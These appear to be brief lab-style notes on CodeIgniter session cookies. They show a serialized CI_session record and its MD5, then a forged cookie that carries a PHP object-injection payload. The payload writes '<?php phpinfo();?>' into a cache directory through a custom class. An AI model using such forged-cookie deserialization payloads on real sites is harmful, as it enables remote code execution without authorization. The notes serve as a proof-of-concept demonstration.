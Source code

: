 #some records for CI_session
- serialized session `a:5:{s:10:"session_id";s:32:"af20f90a0c1df68fda3b3820e71776f1";s:10:"ip_address";s:9:"127.0.0.1";s:10:"user_agent";s:114:"Mozilla/5.0+(Windows+NT+10.0;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/61.0.3163.79+Safari/537.36";s:13:"last_activity";i:1515074184;s:9:"user_data";s:0:"";}`
- md5 `32b6f36380ee06d9e6caa608b4c98be7`
- content
    - session_id => af20f90a0c1df68fda3b3820e71776f1
    - ip_address => 127.0.0.1
    - user_agent => Mozilla/5.0+(Windows+NT+10.0;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/61.0.3163.79+Safari/537.36
    - last_activity => 1515074184
    - user_data =>

#attack example
- payload output `O:16:"Customcacheclass":2:{s:3:"dir";s:32:"application/libraries/cache_dir/";s:5:"value";s:18:"<?php phpinfo();?>";}`
- md5 `3f27981b5b236941acc5afc419424819`
- cookie `O:16:"Customcacheclass":2:{s:3:"dir";s:32:"application/libraries/cache_dir/";s:5:"value";s:18:"<?php phpinfo();?>";}3f27981b5b236941acc5afc419424819`
